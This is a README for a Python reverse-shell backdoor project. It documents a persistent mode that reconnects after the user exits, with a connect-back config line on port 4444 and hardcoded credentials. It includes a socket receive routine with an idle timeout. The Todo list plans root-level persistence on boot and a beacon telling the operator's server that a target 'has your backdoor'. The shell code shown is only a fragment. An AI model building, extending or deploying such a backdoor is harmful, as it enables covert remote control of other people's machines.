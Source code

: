 # python-reverse-shell
simple python reverse shell

# persistent mode
this mode, will be by default enable. this feature will allow the script to connect back after user exit or disconnet from the shell

disable persistent
```
# from this (persistent enable)
lr = {"ht": "127.0.0.1","pt": 4444, "pr": True}; ah = {"ee": False,"ur": "r00t","pd": "t00r"}; sd = "/"

# to this (persistent disable)
lr = {"ht": "127.0.0.1","pt": 4444, "pr": False}; ah = {"ee": False,"ur": "r00t","pd": "t00r"}; sd = "/"

```

# idle mode
for this mode, by default the user has 5 minute to stay idle it will disconnect from user when its more than 5 min

```
# it = idle time, 300s = 5 min
# ut = user time
def __rr(c,b = 2048,rt = 0.2, it = 300, ut = 0):
        ut = time() # set user time
        try:
                c.setblocking(0)
                d = ""
                while True: # running on loop to capture the data
                        r = select.select([c], [], [], rt)
                        if r[0]:
                                d += c.recv(b)
                        else:
                                if it != 0: # if it is 0 mean its disable
                                        if it <= time() - ut: # if it is more than the ut idle, then return False to disconnect the user
                                                return False
                                if len(d) > 0: # check if d has data
                                        c.setblocking(1)
                                        return d
        except socket.error:
                return False
```

# Todo
-       able to create bind shell or reverse shell
-       has auth function only for bind shell
-       able to create persistent(root priv), execute on boot
-       beacon function, sending http request to your server indicate that your target is alive and has your backdoor, this function is useful for persistentt mode
